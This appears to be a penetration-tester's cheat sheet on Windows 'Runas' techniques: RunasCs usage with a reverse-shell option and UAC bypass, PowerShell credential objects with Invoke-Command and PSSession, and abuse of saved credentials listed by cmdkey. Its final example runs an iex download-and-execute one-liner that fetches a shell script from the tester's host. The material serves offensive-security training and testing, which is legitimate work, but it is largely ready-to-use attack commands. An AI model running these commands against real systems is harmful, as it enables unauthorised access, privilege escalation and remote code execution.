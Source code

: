 ```yaml
---
title: "Runas"
date: 2024-7-10
tags: ["Powershell", "Credential Object", "Windows", "Runas", "UAC", "SavedCred", "Cmdkey"]
---
```


### RunasCS

```console
.\RunasCs.exe '<USER>' '<PASSWORD>' "<CMD>" -r <LOCAL_IP>:<LOCAL_PORT>
```

```console
.\RunasCs.exe '<USER>' '<PASSWORD>' "<CMD>" -l <LOGON_TYPE>
```

```console
# Or
.\RunasCs.exe '<USER>' '<PASSWORD>' --bypass-uac "<CMD>" -l <LOGON_TYPE>
```

<br>

```
LOGON TYPE
---------------------
2  Interactive
3  Network
4  Batch
5  Service
7  Unlock
8  NetworkCleartext
9  NewCredentials
10 RemoteInteractive
11 CachedInteractive
```

<small>*Ref: [RunasCS](https://github.com/antonioCoco/RunasCs)*</small>

### Runas (With Password and GUI)

```console
runas /user:'<USER>' "<CMD>"
```

```console {class="sample-code"}
runas /user:'admin' "powershell"
```

```console
# Bypass UAC
start-process powershell.exe -verb runas
```

### Runas (With Cred Object)

#### 1. Create Credential Object

{{< tab set1 tab1 >}}Method 1{{< /tab >}}
{{< tab set1 tab2 >}}Method 2{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = '<PASSWORD>'
```

```console
$secstr = New-Object -TypeName System.Security.SecureString
```

```console
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

{{< /tabcontent >}}

#### 2. Run Command

{{< tab set2 tab1 >}}Invoke-Command{{< /tab >}}
{{< tab set2 tab2 >}}PSSession{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Set computer to 'localhost' if running locally
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME>
```

```console {class="sample-code"}
Invoke-Command -ScriptBlock { powershell } -Credential $cred -Computer localhost
```

```console
# If error, try
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -auth credssp
```

```console
# Invoke command with config
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -ConfigurationName <CONFIG_NAME>
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
# Set computer to '.' if running locally
new-pssession -computername <COMPUTER_NAME> -credential $cred
```

```console {class="sample-code"}
new-pssession -computername . -credential $cred
```

```console
# Switch to new session
enter-pssession <SESSION_ID>
```

{{< /tabcontent >}}

### Runas (With Cached Creds)

#### 1. Check Cached Creds

```console
cmdkey /list
```

#### 2. Run Command

```console
runas /user:<DOMAIN>\<USER> /savecred "<CMD>"
```

```console {class="sample-code"}
# e.g. Upload and run a shell
runas /user:<DOMAIN>\<USER> /savecred "powershell iex(new-object net.webclient).downloadstring('http://<LOCAL_IP>/shell.ps1')"
```
